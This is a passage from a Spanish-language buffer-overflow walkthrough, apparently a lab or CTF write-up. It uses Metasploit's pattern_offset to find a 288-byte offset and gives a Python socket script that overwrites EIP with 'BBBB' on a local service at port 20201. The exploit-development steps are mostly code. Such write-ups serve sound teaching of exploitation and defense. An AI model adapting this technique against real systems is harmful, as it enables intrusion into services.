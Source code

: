```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41366a41
```

Vemos que el **offset** es **288**.

![](<../images/Pasted image 20240914170909.png>)
### Tomando control del EIP

En este punto lo que debemos hacer es comprobar si tenemos control sobre el **EIP**, el cual se encarga de apuntar a la ubicación en la memoria donde se encuentra la siguiente instrucción del programa. Actualizaremos el exploit , estableciendo en la variable **before_eip** la basura que hay antes de llegar al **eip**, el cual vale `BBBB`, por lo que si vemos en el **gdb** `BBBB` tendremos control sobre el **EIP**.

```python
#!/usr/bin/env python3

import socket

ip_addr = "127.0.0.1"
port = 20201

offset = 288
before_eip = b"A"*offset
eip = b"B"*4

payload = before_eip + eip

def main():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_addr, port))

    s.send(b"Enter Data: " + payload + b"\r\n")


if __name__ == '__main__':

    main()
```

Volveremos a ponernos en escucha con `r` (run) y ejecutaremos el exploit. Observamos como ahora el **EIP** vale `BBBB` por lo que habremos tomado el control sobre el **EIP**.
